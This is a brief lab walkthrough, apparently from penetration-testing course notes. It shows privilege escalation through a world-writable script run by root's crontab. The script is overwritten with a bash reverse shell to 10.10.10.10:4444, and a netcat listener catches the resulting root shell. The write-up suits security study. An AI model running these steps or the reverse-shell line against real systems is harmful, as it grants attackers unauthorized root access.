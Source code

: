 # Cron Jobs - File Permissions

View the contents of the system-wide crontab:

`cat /etc/crontab`

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

\#!/bin/bash\
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.

`nc -nvlp 4444`
